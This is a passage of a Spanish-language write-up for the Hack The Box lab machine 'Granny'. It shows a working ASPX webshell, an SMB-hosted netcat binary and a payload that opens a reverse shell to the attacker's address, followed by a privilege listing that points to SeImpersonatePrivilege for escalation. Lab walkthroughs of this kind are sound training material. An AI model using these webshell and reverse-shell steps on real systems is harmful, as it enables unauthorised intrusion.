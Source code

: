 Ahora al acceder a `http://10.129.95.234/cmdasp.aspx` vemos que tenemos una webshell operativa

![](/assets/img/Granny/image_3.png)

## Intrusión

Vamos a ponernos en `escucha` por el `puerto 9993` con `netcat`

```
# nc -nlvp 9993
```

`Copiamos` el `binario` de `netcat` en nuestro `directorio` actual el cual ya nos viene con `permisos de ejecución`

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos montamos un `servidor smb` en nuestra máquina

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Ejecutamos este payload en `http://10.129.95.234/cmdasp.aspx`

```
\\10.10.16.16\smbFolder\nc.exe -e cmd 10.10.16.16 9993
```

Obtenemos nuestra `shell`

```
# nc -nlvp 9993 
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.234] 1082
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

## Privilege escalation

`Listamos privilegios` de nuestro usuario y nos damos cuenta de que tenemos el privilegio `SeImpersonatePrivilege` por lo tanto podemos convertirnos en `Administrator` [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege)

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```